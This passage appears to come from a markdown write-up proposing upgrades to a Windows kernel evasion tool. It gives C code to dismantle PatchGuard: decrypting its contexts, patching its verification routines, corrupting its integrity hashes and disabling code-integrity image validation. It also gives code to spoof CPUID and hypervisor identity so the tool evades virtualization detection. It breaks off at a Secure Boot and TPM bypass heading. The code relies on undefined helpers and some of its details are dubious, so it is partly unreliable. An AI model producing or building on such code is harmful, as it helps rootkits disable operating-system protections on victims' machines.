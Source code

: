 
### **3. Advanced PatchGuard Neutralization**
**Issue**: Basic PatchGuard bypass is insufficient against modern Windows 11 protections.

**Solution**: Multi-layered PatchGuard dismantling:
```c
void DestroyPatchGuard() {
    // 1. Locate and decrypt PG contexts
    PG_CONTEXT* ctx = FindPatchGuardContexts();
    DecryptContexts(ctx);
    
    // 2. Patch verification routines
    PatchMemory(ctx->DpcRoutine, RET_OPCODE, 1);
    PatchMemory(ctx->TimerCallback, RET_OPCODE, 1);
    
    // 3. Corrupt integrity check structures
    memset(ctx->HashTable, 0, sizeof(ctx->HashTable));
    
    // 4. Disable CI.DLL callbacks
    PatchImportTable(ctx->CiModule, "ntoskrnl.exe", "SeValidateImageHeader", 0);
}
```

---

### **4. Hypervisor Evasion Framework**
**Issue**: Current hypervisor detection bypass is trivial to detect.

**Solution**: Comprehensive virtualization detection countermeasures:
```c
void EvadeVirtualizationDetection() {
    // Spoof CPUID hypervisor bits
    PatchCPUIDLeaf(0x40000000, 0); // Clear hypervisor present flag
    
    // Normalize timing characteristics
    CalibrateTimingDelays();
    AddJitterToTimers();
    
    // Detect and bypass VM exits
    if (DetectVmExitPattern()) {
        InstallVmxRootHook();
        DisableVmExitMonitoring();
    }
    
    // Spoof hypervisor vendor ID
    OverrideHypervisorBrand("AuthenticAMD");
}
```

---

### **5. Secure Boot & TPM Bypass**
**Issue**: Current implementation doesn't address UEFI Runtime Services validation.
